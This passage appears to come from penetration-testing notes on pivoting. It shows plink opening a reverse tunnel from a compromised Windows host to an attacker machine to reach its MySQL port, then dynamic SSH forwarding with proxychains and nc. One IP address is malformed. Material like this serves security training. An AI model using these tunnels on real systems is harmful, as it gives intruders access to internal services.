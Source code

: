 Here is how you create a remote port forwarding:

```
ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```

By the way, plink is a ssh-client for windows that can be run from the terminal. The ip of the attacking machine is **111.111.111.111**.

**Step 1**  
So on our compromised machine we do:

```
plink.exe -l root -pw mysecretpassword 111.111.111.111 -R 3307:127.0.0.1:3306
```

**Step 2**  
Now we can check netstat on our attacking machine, we should see something like this:

```
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      19392/sshd: root@pt
```

That means what we can connect to that port on the attacking machine from the attacking machine.

**Step 3**  
Connect using the following command:

```
mysql -u root -p -h 127.0.0.1 --port=3307
```

### Dynamic port forwarding

This can be used to dynamically forward all traffic from a specific application. This is really cool. With remote and local port forwarding you are only forwarding a single port. But that can be a hassle if your target machine has 10 ports open that you want to connect to. So instad we can use a dynamic port forwarding technique.

Dynamic port forwarding sounds really complicated, but it is incredibly easy to set up.  
Just set up the tunnel like this. After it is set up do not run any commands in that session.

```
# We connect to the machine we want to pivot from
ssh -D 9050 user@192.168.1.111
```

Since proxychains uses 9050 by defualt \(the default port for tor\) we don't even need to configure proxychains. But if you want to change the port you can do that in `/etc/proxychains.conf`.

```
proxychains nc 192.168.2.222 21
```

So supress all the logs from proxychains you can configure it in the config file.

#### Tunnel all http/https traffic through ssh

For this we need two machines.  
Machine1 - 111.111.1111.111 - The server that works as our proxy.  
Machine2 - The computer with the web browser.
